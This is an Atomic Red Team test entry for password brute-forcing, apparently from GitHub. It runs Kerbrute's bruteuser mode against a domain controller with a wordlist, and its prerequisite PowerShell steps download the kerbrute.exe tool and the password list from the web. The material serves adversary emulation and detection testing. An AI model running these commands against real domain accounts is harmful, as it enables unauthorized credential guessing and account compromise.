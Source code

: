 


<br/>
<br/>

## Atomic Test #4 - Password Brute User using Kerbrute Tool
Bruteforce a single user's password from a wordlist

**Supported Platforms:** Windows


**auto_generated_guid:** 59dbeb1a-79a7-4c2a-baf4-46d0f4c761c4





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| domaincontroller | Domain controller where test will be run | string | $ENV:userdnsdomain|
| domain | Domain where you will be testing | string | $ENV:userdomain|


#### Attack Commands: Run with `powershell`! 


```powershell
cd "PathToAtomicsFolder\..\ExternalPayloads"
.\kerbrute.exe bruteuser --dc #{domaincontroller} -d #{domain} $env:temp\bruteuser.txt TestUser1
```




#### Dependencies:  Run with `powershell`!
##### Description: kerbrute.exe must exist in PathToAtomicsFolder\..\ExternalPayloads
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_386.exe" -outfile "PathToAtomicsFolder\..\ExternalPayloads\kerbrute.exe"
```
##### Description: bruteuser.txt must exist in PathToAtomicsFolder\..\ExternalPayloads
##### Check Prereq Commands:
```powershell
if (test-path "PathToAtomicsFolder\..\ExternalPayloads\bruteuser.txt"){exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
invoke-webrequest "https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1110.001/src/bruteuser.txt?raw=true" -outfile "PathToAtomicsFolder\..\ExternalPayloads\bruteuser.txt"
```
